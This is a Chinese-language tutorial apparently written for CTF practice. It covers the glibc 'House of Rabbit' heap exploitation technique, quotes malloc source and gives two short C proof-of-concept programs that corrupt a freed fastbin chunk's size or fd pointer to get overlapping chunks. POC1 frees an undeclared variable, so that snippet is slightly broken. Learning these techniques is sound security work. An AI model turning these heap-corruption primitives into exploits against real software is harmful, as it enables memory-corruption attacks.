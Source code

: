 # House of Rabbit

## 介绍：

1. House of rabbit 是一种伪造堆块的技术，早在 2017 年已经提出，但在最近两个月才在 CTF 比赛中出现。我们一般运用在 fastbin attack 中，因为 unsorted bin 等其它的 bin 有更好的利用手段。

## 原理：

1. 我们知道，fastbin 中会把相同的 size 的被释放的堆块用一个单向链表管理，分配的时候会**检查 size 是否合理**，如果不合理程序就会异常退出。而 house of rabbit 就利用了**在 malloc consolidate 的时候 fastbin 中的堆块进行合并**时 **size 没有进行检查**从而伪造一个假的堆块，为进一步的利用做准备。
2. 利用条件：
   * 可以**修改 fastbin 的 fd 指针或 size**  
   * 可以**触发 malloc consolidate**(merge top 或 malloc big chunk 等等)

```c
  if (in_smallbin_range(nb))
  {
    idx = smallbin_index(nb);
    bin = bin_at(av, idx);

    if ((victim = last(bin)) != bin)
    {
      if (victim == 0) /* initialization check */
        malloc_consolidate(av);
      else
      {
        bck = victim->bk;
        if (__glibc_unlikely(bck->fd != victim))
        {
          errstr = "malloc(): smallbin double linked list corrupted";
          goto errout;
        }
        set_inuse_bit_at_offset(victim, nb);
        bin->bk = bck;
        bck->fd = bin;

        if (av != &main_arena)
          victim->size |= NON_MAIN_ARENA;
        check_malloced_chunk(av, victim, nb);
        void *p = chunk2mem(victim);
        alloc_perturb(p, bytes);
        return p;
      }
    }
  }

  /*
     If this is a large request, consolidate fastbins before continuing.
     While it might look excessive to kill all fastbins before
     even seeing if there is space available, this avoids
     fragmentation problems normally associated with fastbins.
     Also, in practice, programs tend to have runs of either small or
     large requests, but less often mixtures, so consolidation is not
     invoked all that often in most programs. And the programs that
     it is called frequently in otherwise tend to fragment.
   */

  else//分配的chunk大小超过small bin时(即分配一个large bin)，会先调用malloc_consolidate，整理fastbin中的
  {
    idx = largebin_index(nb);
    if (have_fastchunks(av))
      malloc_consolidate(av);
  }
```





## POC1: 

1. modify the size of fastbin chunk:

   ```c
   #include <stdlib.h>
   #include <stdio.h>
   #include <string.h>
   int main(void)
   {
       unsigned long* chunk1=malloc(0x40); //0x602000
       unsigned long* chunk2=malloc(0x40); //0x602050
       malloc(0x10);
       free(chunk1);
       free(chunk3);
   
       chunk1[-1]=0xa1; //modify chunk1 size to be 0xa1
       malloc(0x400);  //allocate a large chunk, trigger malloc_consolidate
       malloc(0x90); //申请到修改size后的chunk，并造成overlapping
       return 0;
   }
   
   ```

   调试分析：先释放掉两个chunk

   ![image-20240809154606416](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202408091546003.png)

   修改chunk1的size字段：

   ![image-20240809154816163](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202408091548667.png)

   再分配一个较大的size，**触发maloc_consolidate函数** （没有堆size进行检查），**将fastbin整理到small bin中**，将其直接放入到small bin中，后面申请chunk时就会造成overlapping：

   ![image-20240809154945736](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202408091549348.png)

## POC2

1. modify FD pointer:

   ```c
   #include <stdlib.h>
   #include <stdio.h>
   #include <string.h>
   int main(void)
   {
       unsigned long* chunk1=malloc(0x40); //0x602000
       unsigned long* chunk2=malloc(0x100);//0x602050
       chunk2[1]=0x31; //fake chunk size 0x30
       chunk2[7]=0x21;  //fake chunk's next chunk
       chunk2[11]=0x21;//fake chunk's next chunk's next chuck
       free(chunk1);
       chunk1[0]=0x405050;// modify the fd of chunk1
       malloc(0x400);// malloc a  big chunk to trigger malloc consolidate
       return 0;	
   }
   
   ```

2. 调试，修改前的堆：

   ![image-20240809164501958](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202408091645530.png)

   伪造fake_chunk，这里为什么size字段填1，可以看这篇文章[伪造unsortedbin释放时 top chunk的衔接问题](https://blog.csdn.net/yjh_fnu_ltn/article/details/140830566?spm=1001.2014.3001.5501)：这里甚至可以将fake_chunk_next的size字段给为0x11：

   ![image-20240809170745070](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202408101026605.png)

   faka_chunk_next的size字段给为0x11仍然可以通过检查：

   ![image-20240809171029205](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202408091710717.png)

   

   再分配一个较大的size，**触发maloc_consolidate函数** （没有堆size进行检查），**将fastbin整理到small bin中**，将其直接放入到small bin中，后面申请chunk时就会造成overlapping：

   ![image-20240809170500710](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202408091705135.png)

## 总结

House of rabbit 的优点是**容易构造 overlap chunk** ，由于可以基于 fastbin attack，甚至不需要 leak 就可以完成攻击。